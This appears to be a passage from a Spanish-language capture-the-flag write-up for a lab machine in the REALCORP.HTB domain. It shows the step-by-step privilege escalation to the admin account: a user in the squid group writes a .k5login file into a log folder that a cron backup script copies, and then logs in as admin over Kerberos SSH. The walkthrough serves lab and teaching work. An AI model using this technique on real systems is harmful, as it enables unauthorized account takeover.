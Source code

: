 Parece que el usuario administrador copia todo desde la carpeta ``/var/log/squid`` a su carpeta de inicio. Luego archiva los dos archivos de registro y los elimina. Como todo se copia, pero solo se eliminan los dos archivos especificados, potencialmente tenemos escritura arbitraria en la carpeta ``/home/admin``.

Confirmemos esto comprobando si tenemos acceso de escritura a la carpeta /var/log/squid.

```bash
[j.nakazawa@srv01 ~]$ ls -alh /var/log/
total 1.4M
drwxr-xr-x. 12 root   root   4.0K Feb 23 19:52 .
drwxr-xr-x. 22 root   root   4.0K Dec 24 06:24 ..
drwx-wx---.  2 admin  squid    41 Dec 24 06:36 squid
```

Parece que solo el usuario administrador puede leer la carpeta, sin embargo, el grupo squid puede escribir en la carpeta. Revisemos nuestros grupos.

```bash
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users)
```

Parece que somos parte del grupo de squid, lo que confirma nuestro vector de ataque. La única pregunta que queda es qué queremos escribir en la carpeta. Normalmente, escribiría mi clave ssh en .ssh/authorized_keys. Sin embargo, la autenticación de clave pública está deshabilitada. Mi investigación de Kerberos con SSH reveló que hay una manera de permitir que otros usuarios inicien sesión en su cuenta utilizando un archivo .k5login como se indica en este artículo: https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch04s14.html

“Si desea permitir que otra persona inicie sesión en su cuenta a través de Kerberos, puede agregar su principal de Kerberos a su archivo ~/.k5login. ¡Asegúrate de agregar también el tuyo propio si creas este archivo, ya que de lo contrario no podrás acceder a tu propia cuenta!
Privesc al administrador: Explotación del script log_backup

tenemos que crear nuestro archivo en ``/var/log/squid/.k5login`` y esperar hasta que se copie en la carpeta del administrador. Entonces deberíamos poder utilizar SSH como administrador cuando la tarean cron se ejecute.

Te recomiendo que lo hagas varias veces, ya que a la primera no va:

```bash
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
[j.nakazawa@srv01 log]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login 
```

Luego nos conectamos por ssh:

```bash
ssh admin@10.10.10.224   
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Aug  8 16:00:02 2024
[admin@srv01 ~]$
```
